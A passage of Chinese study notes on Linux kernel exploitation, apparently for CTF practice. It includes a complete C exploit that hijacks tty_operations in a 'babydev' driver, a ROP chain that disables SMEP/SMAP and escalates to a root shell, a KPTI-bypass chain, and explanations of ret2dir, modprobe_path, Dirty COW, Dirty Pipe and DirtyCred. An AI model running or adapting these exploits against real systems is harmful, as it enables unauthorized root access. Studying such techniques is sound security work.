(*hangup)(struct tty_struct *tty); int (*break_ctl)(struct tty_struct *tty, int state); void (*flush_buffer)(struct tty_struct *tty); void (*set_ldisc)(struct tty_struct *tty); void (*wait_until_sent)(struct tty_struct *tty, int timeout); void (*send_xchar)(struct tty_struct *tty, char ch); int (*tiocmget)(struct tty_struct *tty); int (*tiocmset)(struct tty_struct *tty, unsigned int set, unsigned int clear); int (*resize)(struct tty_struct *tty, struct winsize *ws); int (*set_termiox)(struct tty_struct *tty, struct termiox *tnew); int (*get_icount)(struct tty_struct *tty, struct serial_icounter_struct *icount); void (*show_fdinfo)(struct tty_struct *tty, struct seq_file *m); #ifdef CONFIG_CONSOLE_POLL int (*poll_init)(struct tty_driver *driver, int line, char *options); int (*poll_get_char)(struct tty_driver *driver, int line); void (*poll_put_char)(struct tty_driver *driver, int line, char ch); #endif int (*proc_show)(struct seq_file *, void *); } __randomize_layout;
里面有很多函数指针，比如write、open之类的，当打开了tty之后，write写入内容，就会调用结构体中的write指针，也就能劫持执行流
所以可以考虑劫持结构体指针tty_operations指向可控区域，在其中布置函数指针，就会执行伪造的结构体内部的指针
劫持函数指针，还要思考如果继续利用。这里用的方法是栈迁移，首先通过调试，可以数得write指针对应偏移为+7，对应地址写入babyread地址，然后gdb调试，发现此时rax正好就是fake tty operations结构体开头的地址
image-20220510014023716
那么就可以使用这两条gadget
mov rsp,rax ; ??? ; ret pop rax; pop rbp; ret;
write函数指针处写入第一条gadget，则就会以结构体开头为rsp返回，然后再做rop，返回修改cr4寄存器为0x6f0，然后返回到用户态代码执行提权和getshell。
exp中getroot是用户态的空间里，存放着内核态函数地址，所以真正执行的代码还是内核态的，只是存放在用户态（没开smap吧） 同时fake结构体还不能只构造write指针，其他地方不填东西似乎会报错
image-20220510014726436
exp
#include <stdio.h> #include <stdlib.h> #include <unistd.h> #include <string.h> #include <sys/types.h> #include <sys/stat.h> #include <fcntl.h> #define prepare_kernel_cred_addr 0xffffffff810a1810 #define commit_creds_addr 0xffffffff810a1420 void* fake_tty_operations[30]; size_t user_cs, user_ss, user_rflags, user_sp; void save_status() { __asm__("mov user_cs, cs;" "mov user_ss, ss;" "mov user_sp, rsp;" "pushf;" "pop user_rflags;" ); puts("[*]status has been saved."); } void get_shell() { if(!getuid()){ puts("[*]Root Now"); system("/bin/sh"); } else{ puts("Wrong"); } } void get_root() { void* (*func1)(int) = prepare_kernel_cred_addr; void* (*func2)(char*) = commit_creds_addr; (*func2)((*func1)(0)); } int main() { save_status(); int i = 0; size_t rop[32] = {0}; rop[i++] = 0xffffffff810d238d; // pop rdi; ret; rop[i++] = 0x6f0; rop[i++] = 0xffffffff81004d80; // mov cr4, rdi; pop rbp; ret; smep banned rop[i++] = 0; rop[i++] = (size_t)get_root; rop[i++] = 0xffffffff81063694; // swapgs; pop rbp; ret; rop[i++] = 0; rop[i++] = 0xffffffff814e35ef; // iretq; ret; rop[i++] = (size_t)get_shell; rop[i++] = user_cs; /* saved CS */ rop[i++] = user_rflags; /* saved EFLAGS */ rop[i++] = user_sp; rop[i++] = user_ss; for(int i = 0; i < 30; i++) { fake_tty_operations[i] = 0xFFFFFFFF8181BFC5; } fake_tty_operations[0] = 0xffffffff810635f5; //pop rax; pop rbp; ret; rop fake_tty_operations[1] = (size_t)rop; fake_tty_operations[7] = 0xFFFFFFFF8181BFC5; // mov rsp,rax ; dec ebx ; ?? ;ret // fake_tty_operations[7] = 0xffffffffc0000000+0x130; // mov rsp,rax ; dec ebx ; ?? ;ret int fd1 = open("/dev/babydev", O_RDWR); int fd2 = open("/dev/babydev", O_RDWR); ioctl(fd1, 0x10001, 0x2e0); close(fd1); int fd_tty = open("/dev/ptmx", O_RDWR|O_NOCTTY); //O_NOCTTY 如果欲打开的文件为终端机设备时, 则不会将该终端机当成进程控制终端机. size_t fake_tty_struct[4] = {0}; read(fd2, fake_tty_struct, 32); fake_tty_struct[3] = (size_t)fake_tty_operations; write(fd2,fake_tty_struct, 32); //overwrite char buf[0x8] = {0}; write(fd_tty, buf, 8); //trigger return 0; }
bypass smap
cr4寄存器第21位
- 1：0x6f0设置cr4，smap和smep都会被关闭
- 2：调用copy_from_user和copy_to_user来访问用户态的内存
bypass kpti
KPTI(Kernel page-table isolation)内核页表隔离，把进程页表按照成用户态、内核态独立的分割成两份，为了杜绝用户态通过一些旁路漏洞来窃取内核态的数据。
找符号swapgs_restore_regs_and_return_to_usermode
pwndbg> x/40i 0xffffffff9e200ff0 0xffffffff9e200ff0: jmp 0xffffffff9e20100b 0xffffffff9e200ff2: mov ecx,0x48 0xffffffff9e200ff7: mov rdx,QWORD PTR gs:0x17bc8 0xffffffff9e201000: and edx,0xfffffffe 0xffffffff9e201003: mov eax,edx 0xffffffff9e201005: shr rdx,0x20 0xffffffff9e201009: wrmsr 0xffffffff9e20100b: nop DWORD PTR [rax+rax*1+0x0] 0xffffffff9e201010: pop r15 0xffffffff9e201012: pop r14 0xffffffff9e201014: pop r13 0xffffffff9e201016: pop r12 0xffffffff9e201018: pop rbp 0xffffffff9e201019: pop rbx 0xffffffff9e20101a: pop r11 0xffffffff9e20101c: pop r10 0xffffffff9e20101e: pop r9 0xffffffff9e201020: pop r8 0xffffffff9e201022: pop rax 0xffffffff9e201023: pop rcx 0xffffffff9e201024: pop rdx 0xffffffff9e201025: pop rsi 0xffffffff9e201026: mov rdi,rsp 0xffffffff9e201029: mov rsp,QWORD PTR gs:0x6004 0xffffffff9e201032: push QWORD PTR [rdi+0x30] 0xffffffff9e201035: push QWORD PTR [rdi+0x28] 0xffffffff9e201038: push QWORD PTR [rdi+0x20] 0xffffffff9e20103b: push QWORD PTR [rdi+0x18] 0xffffffff9e20103e: push QWORD PTR [rdi+0x10] 0xffffffff9e201041: push QWORD PTR [rdi] 0xffffffff9e201043: push rax 0xffffffff9e201044: xchg ax,ax 0xffffffff9e201046: mov rdi,cr3 0xffffffff9e201049: jmp 0xffffffff9e20107f 0xffffffff9e20104b: mov rax,rdi 0xffffffff9e20104e: and rdi,0x7ff 0xffffffff9e201055: bt QWORD PTR gs:0x2b756,rdi 0xffffffff9e20105f: jae 0xffffffff9e201070 0xffffffff9e201061: btr QWORD PTR gs:0x2b756,rdi 0xffffffff9e20106b: mov rdi,rax
rop跳转执行连续的pop指令的下一条地址，即0xffffffff9e201026: mov rdi,rsp
size_t rop[0x500]; memset((char*)rop, 0, 0x500); int i = 0; rop[i++] = prdi_r; rop[i++] = 0x6f0; rop[i++] = mov_cr4_rdi; rop[i++] = prdi_r; rop[i++] = init_cred; rop[i++] = commit_creds; rop[i++] = swapgs_restore_regs_and_return_to_usermode; rop[i++] = 0; rop[i++] = 0; rop[i++] = (size_t)getshell; rop[i++] = user_cs; rop[i++] = user_rflags; rop[i++] = user_sp; rop[i++] = user_ss;
double fetch
条件竞争
ret2dir
是一种绕过smap/smep和pxn防护的攻击方法
需要知道linux的内存布局（https://elixir.bootlin.com/linux/v5.0/source/Documentation/x86/x86_64/mm.txt）
======================================================================================================================== Start addr | Offset | End addr | Size | VM area description ======================================================================================================================== | | | | 0000000000000000 | 0 | 00007fffffffffff | 128 TB | user-space virtual memory, different per mm __________________|____________|__________________|_________|___________________________________________________________ | | | | 0000800000000000 | +128 TB | ffff7fffffffffff | ~16M TB | ... huge, almost 64 bits wide hole of non-canonical | | | | virtual memory addresses up to the -128 TB | | | | starting offset of kernel mappings. __________________|____________|__________________|_________|___________________________________________________________ | | Kernel-space virtual memory, shared between all processes: ____________________________________________________________|___________________________________________________________ | | | | ffff800000000000 | -128 TB | ffff87ffffffffff | 8 TB | ... guard hole, also reserved for hypervisor ffff880000000000 | -120 TB | ffff887fffffffff | 0.5 TB | LDT remap for PTI ffff888000000000 | -119.5 TB | ffffc87fffffffff | 64 TB | direct mapping of all physical memory (page_offset_base) ffffc88000000000 | -55.5 TB | ffffc8ffffffffff | 0.5 TB | ... unused hole ffffc90000000000 | -55 TB | ffffe8ffffffffff | 32 TB | vmalloc/ioremap space (vmalloc_base) ffffe90000000000 | -23 TB | ffffe9ffffffffff | 1 TB | ... unused hole ffffea0000000000 | -22 TB | ffffeaffffffffff | 1 TB | virtual memory map (vmemmap_base) ffffeb0000000000 | -21 TB | ffffebffffffffff | 1 TB | ... unused hole ffffec0000000000 | -20 TB | fffffbffffffffff | 16 TB | KASAN shadow memory __________________|____________|__________________|_________|____________________________________________________________ | | Identical layout to the 56-bit one from here on: ____________________________________________________________|____________________________________________________________ | | | | fffffc0000000000 | -4 TB | fffffdffffffffff | 2 TB | ... unused hole | | | | vaddr_end for KASLR fffffe0000000000 | -2 TB | fffffe7fffffffff | 0.5 TB | cpu_entry_area mapping fffffe8000000000 | -1.5 TB | fffffeffffffffff | 0.5 TB | ... unused hole ffffff0000000000 | -1 TB | ffffff7fffffffff | 0.5 TB | %esp fixup stacks ffffff8000000000 | -512 GB | ffffffeeffffffff | 444 GB | ... unused hole ffffffef00000000 | -68 GB | fffffffeffffffff | 64 GB | EFI region mapping space ffffffff00000000 | -4 GB | ffffffff7fffffff | 2 GB | ... unused hole ffffffff80000000 | -2 GB | ffffffff9fffffff | 512 MB | kernel text mapping, mapped to physical address 0 ffffffff80000000 |-2048 MB | | | ffffffffa0000000 |-1536 MB | fffffffffeffffff | 1520 MB | module mapping space ffffffffff000000 | -16 MB | | | FIXADDR_START | ~-11 MB | ffffffffff5fffff | ~0.5 MB | kernel-internal fixmap range, variable size and offset ffffffffff600000 | -10 MB | ffffffffff600fff | 4 kB | legacy vsyscall ABI ffffffffffe00000 | -2 MB | ffffffffffffffff | 2 MB | ... unused hole __________________|____________|__________________|_________|___________________________________________________________
physmap 就是我们要找的直接映射区域在0xffff888000000000 - 0xffffc87fffffffff 这一段，大小为 64TB
这段内存的定义： physmap:内核空间中一个大的，连续的虚拟内存空间它映射了部分或所有(取决于具体架构)的物理内存
也就是说这块地方是物理内存会直接映射到这64TB 里面的某个地方，不同架构映射可能会有所不同 这样要找到物理内存的一个位置，只需要做简单的线性加减就完事了，速度和效率都比较高
目前linux 内核多使用 伙伴系统 + slub 分配器 来做内存分配（https://blog.csdn.net/lukuen/article/details/6935068）
linux 内核内存分配主要有 kmalloc 和 vmalloc 两种方式
vmalloc 请求页的倍数大小的内存，要保证虚拟地址连续，物理地址不需要连续
kmalloc 内存在字节级做分配，要保证 虚拟地址和物理地址都是连续的
kmalloc 也就是我们的slub分配器使用的方式，也是内核用到更多的方式
很容易想到slub分配器可以在physmap上做内存分配操作，例如要分配 0x200 大小的内存，那么就会找kmalloc-512 ，最后这块内存是在physmap 里面的
通过上面的描述我们可以知道
physmap 和 ram 是直接的映射关系，可以通过 slub 分配的内存地址找到 physmap 的位置
ret2dir 主要是用来绕过内核 smep, smap 的限制
加上了 smep,smap 保护之后，内核态不能直接执行用户态的代码
但是用户态分配的内存，也会停留在 ram 中，这块内存在 physmap中是可以看到的，可以通过mmap分配大量的内存，这样找到的概率就会比较大
早期physmap是可执行的，于是可以在用户态写好shellcode, 然后劫持内核之后跳到 physmap 对应的位置就完事了，不用去管smep,smap
后面加上了一些保护策略（W^X w 和 x 不能同时存在等）,physmap 不可执行，但是仍然可以通过 rop 之类的方式进行利用
okay, 总结一下利用过程
1 mmap 大量的内存(rop chains 等)，提高命中的概率 2 泄露出 slab 的地址，计算出 physmap的地址 3 劫持内核执行流到 physmap 上
modprobe_path提权
modprobe用于在Linux内核中添加一个可加载的内核模块，或者从内核中移除一个可加载的内核模块，它是我们在Linux内核中安装或卸载新模块时都要执行的一个程序。该程序的路径是一个内核全局变量，默认为/sbin/modprobe，我们可以通过运行cat /proc/sys/kernel/modprobe查看该路径
这个路径是可写的，普通用户也是可以更改它的 而当内核运行一个错误格式的文件（或未知文件类型的文件）的时候，也会调用这个 modprobe_path所指向的程序。如果我们将这个字符串指向我们自己的sh文件 ，并使用 system或 execve 去执行一个未知文件类型的错误文件，那么在发生错误的时候就可以执行我们自己的二进制文件了
利用kpti_trampoline返回用户态
补充
kernel中的mod_tree处存放着各个加载模块的地址；cat /proc/kallsyms | grep mod_tree即可
SELinux
dirty cow
Dirty COW漏洞是一种发生在写时复制的竞态条件漏洞，它影响所有基于Linux的操作系统，包括Android，这个漏洞2007年起就存在于Linux内核中，直到2016年才被发现和修复。可以利用这个漏洞修改受保护的文件，也可以利用这个漏洞提权。
dirty pipe
使用pipe read/write，我们可以让目标pipe的每个pipe buffer都带上PIPE_BUF_FLAG_CAN_MERGEflag。之后打开目标文件，并使用splice 写到之前处理过的pipe中，splice底层会帮助我们把目标文件的page cache 设置到pipe buffer的page字段，但却没有修改flags字段。之后我们再调用pipe write时由于存在PIPE_BUF_FLAG_CAN_MERGEflag字段，内容会接着上次被写入同一个page中，但page其实已经变成了目标文件的page cache，导致直接修改了目标文件page cache。如果之后有其他文件尝试读取这个文件，kernel会优先返回cache中的内容，也就是被我们修改后的page cache。但由于这个修改并不会触发page的dirty属性，因此若由于内存紧张后或系统重启等原因，就会导致这个cache内kernel丢弃，再次读取文件内核就会重新从磁盘中取出未被我们修改的内容（这就是和脏牛的不同点）。
dirty cred
主要涉及对creds和file结构的替换，creds中存放着uid、gid的信息，file结构是当前操作的文件，包括读写权限等，当对文件操作通过权限校验后，把对应的file结构替换成一个缺少权限的文件可以实现越权读写
4.13前可以用userfaultfd延长内核时间窗口（权限校验->获取用户输入->实际写入操作） 4.13后无法用userfaultfd延长内核时间窗口（获取用户输入->权限校验->实际写入操作）
inode机制：同时只能由一个进程向一个目标文件写内容，其他写入操作需要等待解锁（权限校验不需要等待锁）。故可以通过写超长内容来延长时间